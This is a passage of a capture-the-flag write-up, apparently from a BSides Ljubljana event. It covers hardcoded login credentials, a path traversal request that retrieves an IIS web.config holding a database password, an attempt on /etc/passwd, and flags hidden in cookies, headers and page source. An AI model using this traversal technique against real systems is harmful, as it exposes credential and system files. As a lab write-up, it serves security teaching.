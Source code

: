 ```C#
if (this.Username == "fars@bsidesljubljana.si" && this.Password == "SuperSecurePassword")
```

### Retrieving the web.config

After desperately looking for more flags, we got a hint from one of the organizers to look at Posbox again. We tried to get `/etc/passwd` on the Posbox host using path traversal on the `file=` http parameter, but then the organizer reminded us the host was windows running IIS and we should try `web.config`.

`http://posbox.fars.si/home?file=web.config` actually worked.

The file contained database credentials, which are also a flag. We haven't used
the credentials for anything else, since the database wasn't available over the
network.

```
<configuration>
  <system.webServer>
    <handlers>
      <add name="httpplatformhandler" path="*" verb="*" modules="httpPlatformHandler" resourceType="Unspecified" />
    </handlers>
    <httpPlatform processPath="..\approot\web.cmd" arguments="" stdoutLogEnabled="false" stdoutLogFile="..\logs\stdout.log" startupTimeLimit="3600"></httpPlatform>
  </system.webServer>
  <connectionStrings>
    <add name="CTF#9" connectionString="server=localhost;database=myDb;uid=myUser;password=HereWeAreHereWeGo;" />
                <!-- CTF9: HereWeAreHereWeGo-->
  </connectionStrings>
  <system.serviceModel>
    <bindings>
      <basicHttpBinding>
        <binding name="BasicHttpBinding_IQRValidator" />
      </basicHttpBinding>
    </bindings>
    <client>
      <endpoint address="http://validateqr.fars.si/QRValidator.svc" binding="basicHttpBinding" bindingConfiguration="BasicHttpBinding_IQRValidator" contract="ServiceReference1.IQRValidator" name="BasicHttpBinding_IQRValidator" />
    </client>
  </system.serviceModel>
</configuration>
```

But we can see the validateqr endpoint as hint for the next challenge.

### Flags in the webservices

Some easier flags we found on the way by looking closely at everything (and then looking again):

 - The FAQ system set a Cookie that contained a flag.
 - The welcome page sent a custom HTTP header containing a flag.
 - If you were logged in, the HTML source of the 404 page of `posbox.fars.si`
   contained a flag.
 - Visiting `192.168.66.5` with the hostname `remote.fars.si` over https
   revealed another flag.

